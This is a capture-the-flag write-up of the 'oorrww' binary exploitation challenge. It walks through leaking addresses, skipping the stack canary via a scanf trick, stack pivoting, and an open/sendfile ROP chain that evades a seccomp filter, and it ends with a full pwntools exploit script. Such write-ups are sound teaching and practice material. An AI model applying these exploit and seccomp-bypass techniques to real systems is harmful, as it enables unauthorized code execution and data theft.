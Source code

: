 = oorrww - some other bytes to rop l3akCTF
:description: Everyone gets award.
:tags: ctf, pwn, binary exploitation, rop
:toc:
:stylesheet: ../../../style.css
:author: Lenart
:docdate: 2024-05-28
:source-highlighter: coderay
:coderay-linenums-mode: inline

link:../../index.html[Back to Home]

== Challenge
**open/read/write or just open&send**

This is a pwn challenge from the l3akCTF first edition.

We are given an ELF binary, a libc, a Dockerfile and a docker-compose.

== Enumeration:

Running the binary, we get this:

[source,shell]
----
lenart@xorr0r0:~/ctf/oorrww_dist$ ./oorrww
here are gifts for you: 6.95282314239992e-310 6.606487017994984e-310!
input:
----

There are some double values that seem important, but we don't know what they are just yet.
It then takes our input, and seemingly it takes numbers as input, not chars.

After playing around a bit, I realized it takes input in a loop, and after 22 inputs, it just crashes:

[source,shell]
----
*** stack smashing detected ***: terminated
----

Great, but it looks like there is the stack canary enabled which makes it harder to create a classical
buffer overflow.

[source,shell]
----
RELRO         Full RELRO
STACK CANARY  Canary found
NX            NX enabled
PIE           PIE enabled
----

Let's finally open it in Binja.

The main function:

[source,c]
----
000013b2  int64_t main()

000013c1      int32_t rdi
000013c1      int32_t var_bc = rdi
000013c7      int64_t rsi
000013c7      int64_t var_c8 = rsi
000013ce      void* fsbase
000013ce      int64_t rax = *(fsbase + 0x28)
000013e2      init()
000013ec      sandbox()
000013fb      void var_a8
000013fb      gifts(&var_a8)
00001455      for (int32_t i = 0; i s<= 0x15; i = i + 1)
00001416          puts("input:")
00001442          __isoc99_scanf(&data_2035, sx.q(i << 3) + &var_a8, &var_a8)
00001457      int64_t rax_8 = 0
00001469      if (rax != *(fsbase + 0x28))
0000146b          rax_8 = __stack_chk_fail()
00001471      return rax_8
----

Seeing the `sandbox()` function I realized not only it is protected by the stack canary and the other compiler's protections
but also seemingly there is some sandboxing security measures.

[source,shell]
----
lenart@xorr0r0:~/ctf/oorrww_dist$ seccomp-tools dump ./oorrww
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0008
 0006: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
----

The trick to bypass seccomp rules is, If it doesn't check for the arch type, we could simply call another arch instruction,
for example, call int 0x80 instead of syscall, or if it didn't check for the syscall number greater than `0x40000000`,
we could pass `0x40000000 + SYSCALL_NUMBER` because apparently the Linux kernel ignores the high-order bits in the syscall number.
Another trick is to find other alternative system calls.

The challenge name gives some hints, `oorrww` is an abbreviation for `open/read/write`.

Getting back to Binja, we have:

[source,c]
----
main()
...
gifts(&var_a8)
...

00001331  int64_t gifts(int64_t arg1)
00001341      void* fsbase
00001341      int64_t rax = *(fsbase + 0x28)
00001357      int64_t (* const var_28)() = __isoc99_scanf
0000137e      int512_t zmm1
0000137e      zmm1.o = zx.o(__isoc99_scanf)
00001396      printf("here are gifts for you: %.16g %.…", arg1, zmm1)
000013a0      int64_t rax_4 = rax - *(fsbase + 0x28)
000013a9      if (rax != *(fsbase + 0x28))
000013ab          rax_4 = __stack_chk_fail()
000013b1      return rax_4
----

So, the program leaks the address of the `var_a8` (which is the buffer where we write), and `__isoc99_scanf`.
Here is a script to convert the leaked addresses to hex:

[source,python]
----
fleak = io.recvline().strip().decode().split()
buffer_leak = float.hex(float(fleak[5]))
buffer_leak = int(buffer_leak[5:17], 16)

scanf_leak = float.hex(float(fleak[6][:-1]))
scanf_leak = int(scanf_leak[5:17], 16)
----

Next, in the binary, we have:

[source,c]
----
00001455      for (int32_t i = 0; i s<= 0x15; i = i + 1)
00001416          puts("input:")
00001442          __isoc99_scanf(&data_2035, sx.q(i << 3) + &var_a8, &var_a8)
----

It takes our inputs up to 22 times, and it will eventually overflow the buffer.

We can use a trick to bypass the stack canary by confusing the `scanf` function[1]:

1: link:https://rehex.ninja/posts/scanf-and-hateful-dot/[pwn> scanf and hateful dot]

---------
+--------+
| AAAAAA | <- start of the buffer
|   A    |
|   A    |
|   A    |
|   A    |
|   A    |
|   .    | <- Bypass the canary because scanf wouldn't write .
| 0x1337 | <- return address we can control and jump wherever we want
+--------+
---------

Now we have to deal with the fact that we only have 22 inputs, each of 8 bytes;
this means we only have one byte after the stack canary.

We can use the stack pivoting technique[2] to control a larger stack using the following gadget.

2: link:https://ir0nstone.gitbook.io/notes/binexp/stack/stack-pivoting/exploitation/leave[leave]

[source,shell]
----
lenart@xorr0r0:~/ctf/oorrww_dist$ ROPgadget --binary oorrww
0x00000000000012a3 : leave ; ret
----

That is good, we can fill our buffer with a ROP chain and then pivot the stack to the start of the buffer.

Here is what happens to the stack:

---------
+---------+
|    A    | <- start of the buffer
|    A    |
|    A    |
|    A    |
|    A    |
|    A    |
|    .    | <- Bypass the canary because scanf woudldn't write .
|  0x1337 | <- address of leave; ret ---->----
+---------+                                  |
                                             |
                 rbp aka base pointer ->  +------+ <- A stack that we don't control
                                          |      |
                                          |      |
                                          |      |
                                          +------+
---------

Here is what is happening when calling `leave; ret` instruction:
[source,asm]
----
mov rsp, rbp
pop rbp
----

== Leak libc and exploit using ROP chain:

=== Leak libc:

We can get the libc base address using the `scanf` leaked address.

----
libc.base = scanf_leaked_address - scanf_offset_in_libc
----

And from this we can find every gadget in the libc using `libc.base + gadget_offset`.

=== ROP chain:

The idea of ROP chain is as following:

[source,asm]
----
pop rax     ; move the first value in the stack into rax
ret         ; pop return address from rbp and return to it.
----

We can chain the gadgets to control the registers and call the system calls or libc functions.

EX:

----
Addresses |                                        The stack
          |                                 +--------------------+
          | pop rax ----------------------> |         2          |
          |                                 +--------------------+
          | ret --------------------------> |        0x42        |
          |                                 +--------------------+
  0x42    | pop rdi ----------------------> | 0x7478742e67616c66 + -> flag.txt----> The addresss pointing to flag.txt
          |                                 +--------------------+
          | ret --------------------------> |       0x1337       |
          |                                 +--------------------+
 0x1337   | pop rsi ----------------------> |         0          |
          |                                 +--------------------+
          | ret --------------------------> |      0xca11        |
          |                                 +--------------------+
 0xca11   | syscall
----

The above figure shows how to set some registers and call open syscall. Under linux x64_86, each syscall
has a specific number and the rax register used to register the number of the desired syscall, which is 2
in the case of `open` according linux system call table[3].
If you want to see them by yourself, you can navigate somewhere around `/usr/src/(kernel_name)/arch/x86/entry/syscalls/syscall_64.tbl`.

3: https://filippo.io/linux-syscall-table/[linux syscall table]

=== The strategy

1. We can only write eight bytes at a time, so we can write `flag.txt` at the start of our buffer as this strings
is required by the open syscall, and we don't have it in the binary file.
2. Open requires a null terminated string. However, the stack has garbage on it, so when writing it at the start of the stack,
it is not null terminated, so the next eight bytes should contain a null byte.
3. Having `flag.txt\0` on the top of the stack. We can fill the rest of the stack with a rop chain to open/read/write it.
4. bypass the canary with a `.`.
5. We have an extra 16 bytes to pivot the stack and change `ret` address. First, we put the address of the buffer
leaked by the program  `+ 8` (We don't want to jump to 0x0 null byte terminator of flag.txt as it is at the top of the stack)
so `leave` will pivot our stack to the start of our rop chain.
6. We change the `ret` to the `leave; ret` gadget address.

We still have a tiny stack space in which we can't fit `open/read/write` system calls.

Instead, we can open the flag file and use `sendfile` system call, saving us some space on the stack.

The man of `sendfile` says:
----
       sendfile() copies data between one file descriptor and another.
       Because this copying is done within the kernel, sendfile() is
       more efficient than the combination of read(2) and write(2),
       which would require transferring data to and from user space.

       in_fd should be a file descriptor opened for reading and out_fd
       should be a descriptor opened for writing.
----

The `sendfile` prototype is:
[source,c]
----
ssize_t sendfile(int out_fd, int in_fd, off_t *offset, size_t count);
----

[source, asm]
----
%rax 40
%rdi int out_fd
%rsi int in_fd
%rdx loff_t *offset
%r10  size_t count
----

And we have this gadget to control the registers:
----
0x0000000000119170: endbr64; mov r10, rcx; mov eax, 0x28; syscall;
----

=== Exploitation
With all that, here is the final unformatted script:

[source,python]
----
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import struct

#context.terminal = 'kitty'
context.terminal = ["tmux", "splitw", "-h"]
logger = logging.getLogger(__name__)

exe = context.binary = ELF(args.EXE or './oorrww_patched')
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

io = process([exe.path])
#io = remote('193.148.168.30', 7666)
#gdb.attach(io, gdbscript=gdbscript)

fleak = io.recvline().strip().decode().split()
buffer_leak = float.hex(float(fleak[5]))
buffer_leak = int(buffer_leak[5:17], 16)

scanf_leak = float.hex(float(fleak[6][:-1]))
scanf_leak = int(scanf_leak[5:17], 16)

libc.address = scanf_leak - libc.symbols['__isoc99_scanf']
print("LIBC @ {}".format(hex(libc.address)))

rop = ROP(libc)
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
pop_rsi = (rop.find_gadget(['pop rsi', 'ret']))[0]
pop_rax = (rop.find_gadget(['pop rax', 'ret']))[0]
pop_rdx = libc.address + 0x11f2e7
syscall = (rop.find_gadget(['syscall', 'ret']))[0]
leave_ret = (rop.find_gadget(['leave', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

gdbscript="""
b *{}
b *{}
""".format(leave_ret, syscall)
#gdb.attach(io, gdbscript=gdbscript)

def pack_input(data):
    val = p64(data).hex()
    return (struct.unpack('d', bytes.fromhex(val))[0])

def create_string(string):
    f = string.encode().hex()
    ba = bytearray.fromhex(f)
    ba.reverse()
    s = ''.join(format(x, "02x") for x in ba)
    return s

def send_address(addr):
    io.sendline("{}".format(pack_input(addr)))

print("Addr: scanf({}) buffer({})".format(hex(scanf_leak), hex(buffer_leak)))
def overflow(r):
    send_address(0x007478742e67616c66)
    send_address(0x00)

    # Open
    send_address(pop_rdi)
    send_address(buffer_leak)
    send_address(pop_rsi)
    send_address(0x0)
    send_address(pop_rax)
    send_address(0x2)
    send_address(syscall)

    # sendfile
    send_address(libc.address + 0x000000000003d1ee)
    send_address(0x200)
    send_address(pop_rsi)
    send_address(0x3)
    send_address(pop_rdi)
    send_address(1)
    send_address(libc.address + 0x0000000000119170)

    send_address(libc.sym.read)

    send_address(libc.sym.write)
    send_address(pop_rdi)

    # Bypass the canary
    io.sendline(b".")
    io.sendline("{}".format(pack_input(buffer_leak + 8)))


def first_stage():
    overflow(0);
    io.sendline("{}".format(pack_input(leave_ret)))

first_stage()
io.interactive()
----